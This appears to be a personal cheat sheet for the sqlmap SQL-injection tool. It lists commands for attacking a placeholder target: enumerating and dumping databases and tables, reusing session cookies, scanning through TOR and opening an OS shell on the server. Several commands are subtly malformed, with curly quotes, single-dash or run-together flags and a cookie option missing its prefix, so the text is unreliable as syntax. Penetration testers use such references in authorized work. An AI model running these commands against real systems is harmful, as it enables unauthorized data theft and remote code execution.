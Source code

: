 # Sqlmap
#SQLi  #Tool #exploitation 

Automation of the SQLi process. 


## Usage
### Simple usage
 sqlmap -u “http://targetserver/”

### Specify target DBMS to MySQL
 sqlmap -u “http://targetserver/” --dbms=mysql

### Using a proxy
 sqlmap -u “http://targetserver/” --proxy=http://proxy\_address:port

### Specify param1 to exploit
 sqlmap -u “http://targetserver/param1=value1&param2=value2” -p param1

### Use POST requests
 sqlmap -u “http://targetserver” --data=param1=value1&param2=value2

### Access with authenticated session
 sqlmap -u “http://targetserver” --data=param1=value1&param2=value2 -p param1 cookie=’my\_cookie\_value’

### Basic authentication
 sqlmap -u “http://targetserver” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password

### Evaluating response strings
 sqlmap -u “http://targetserver/” --string=”This string if query is TRUE”
 
 sqlmap -u “http://targetserver/” --not-string=”This string if query is FALSE”

### List databases
 sqlmap -u “http://targetserver/” --dbs

### List tables of database target\_DB
 sqlmap -u “http://targetserver/” -D target\_DB --tables

### Dump table target\_Table of database target\_DB
 sqlmap -u “http://targetserver/” -D target\_DB -T target\_Table -dump

### List columns of table target\_Table of database target\_DB
 sqlmap -u “http://targetserver/” -D target\_DB -T target\_Table --columns

### Scan through TOR
 sqlmap -u “http://targetserver/” --tor --tor-type=SOCKS5

### Get OS Shell
 sqlmap -u “http://targetserver/” --os-shell